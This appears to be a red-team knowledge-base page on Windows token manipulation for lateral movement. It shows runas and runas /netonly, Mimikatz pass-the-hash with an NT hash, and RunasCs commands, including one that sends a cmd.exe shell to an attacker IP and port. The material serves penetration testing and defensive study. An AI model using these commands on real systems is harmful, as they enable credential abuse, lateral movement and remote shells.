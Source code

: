 ```yaml
---
label: Access Token Manipulation
subLabel: (RunAs, RunasCs)
---
```


# Token Manipulation for Lateral Movement

> **Requirements**
>
> * Credentials (password, NT hash) of the target user.

Token Manipulation allows you to run a process (e.g. cmd) as another user and get its permissions on   the network. It can be used for lateral movement in conjunction with other techniques if, for example, the target user is a local administrator on some other machine.

## RunAs (using password)

> **IMPORTANT**: RunAs requires plaintext password.

RunAs is a built-in Windows tool for token manipulation. It allows you to run a process with another user's access token. In practice, this means obtaining the rights of another user. Each time, a password prompt is displayed and **you have to enter the password of the target user**. The password is verified before creating the process using SAM (for local users) or Domain Controller (for domain users).

The process created by RunAs has logon of the **Interactive type** (reusable credentials are available) and access token of the target user (`whoami` returns target user).

> **NOTICE**: This is very useful in conjunction with built-in commands that do not have the ability to specify a user and password (e.g. `sc.exe` or `schtasks.exe`). With `RunAs` you are able to use these commands as another user and perform lateral movement.

```powershell
# Using password
runas /u:$domain\$target_user cmd.exe
```

### RunAs /netonly

Sometimes you have a valid password that RunAs cannot verify (e.g. local user of an other machine) but it can be used to perform network connections. The `/netonly` flag specifies that the **provided credentials are for remote access only and Windows doesn't validate them**.

The process created by `runas /netonly` has logon of the **NewCredentials type**. It's a rare type of logon. The new logon session has the same local identity (`whoami` returns current user), but **it uses newly provided credentials for other network connections**. In short, with the `/netonly` flag, you are not locally another user, but on the network you have the privileges of another user effectively.

```powershell
# Using password
runas /u:$domain\$target_user /netonly cmd.exe
```

## Mimikatz (using NT hash)

Using Mimikatz we are able to do exactly the same as `runas /netonly` but with NT hash instead of plaintext password.

```powershell
# Using NT hash
mimikatz.exe
> privilege::debug
> sekurlsa::pth /user:$target_user /domain:$domain /ntlm:$nt_hash /run:cmd.exe
```

## RunasCs (using password)

If we don't have stable access to the machine over RDP or another more convenient method, we probably won't want to use the default `runas.exe` because it doesn't allow us to pass the password directly in the command line. Instead, we will use the specialized tool: `RunasCs.exe` ([GitHub](https://github.com/antonioCoco/RunasCs)). This is a **custom offensive utility to run specific processes under a different user account by specifying explicit credentials**. It performs sophisticated access token manipulation under the hood.

RunasCs has many different parameters useful in red-teaming, below we present the most useful.

> **NOTICE**: You can execute for example `nc.exe [...]` using `RunasCs` and get a reverse shell as a different user. `RunasCs` also has built-in ability (read below) to redirect standard streams of a command to a remote host.

```powershell
# Run command as a local user
RunasCs.exe $user $pass "$command"

# Run command as a domain user (logon type: 8, NetworkCleartext)
RunasCs.exe $user $pass "$command" -d $domain -l 8

# Redirect stdin/out/err of the command to a remote host
RunasCs.exe $user $pass cmd.exe -r $attacker_ip:$attacker_port
```

{/*TODO:Overpass-the-Hash, Pass-the-Ticket*/}
{/*./Rubeus.exe asktgt /user:$user /aes256:$aes /createnetonly:C\Windows\System32\cmd.exe /show /ptt*/}

## Resources

* [ATTL4S & ElephantSe4l, *Understanding Windows Lateral Movement*](https://attl4s.github.io/assets/pdf/Understanding_Windows_Lateral_Movements.pdf)
